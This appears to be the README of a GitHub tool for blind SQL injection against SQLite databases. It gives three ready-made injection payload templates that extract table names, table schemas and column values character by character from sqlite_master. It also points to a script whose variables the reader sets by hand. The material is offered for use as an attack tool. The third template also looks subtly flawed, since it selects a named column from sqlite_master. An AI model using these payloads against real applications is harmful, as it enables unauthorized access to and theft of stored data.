 __________SQLiteBLINDInjection__________
Blind SQL Injection For SQLite Databases

https://github.com/aykutcanustun
Author: aykutcanustun

How to set queries:
__________________________________________________________________________________________________________
To retrieve table names from database, use this one:
 ' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),{},1)){} {} --

To retrieve table schema, use this one:
 ' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

To retrieve values inside column, use this one:
 ' or UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

Replace $TABLE_NAME, $COLUMN_NAME with data that you retrieved from privious one!
___________________________________________________________________________________________________________

For using script, you have to set varibles manually:
I added coomments to these lines!
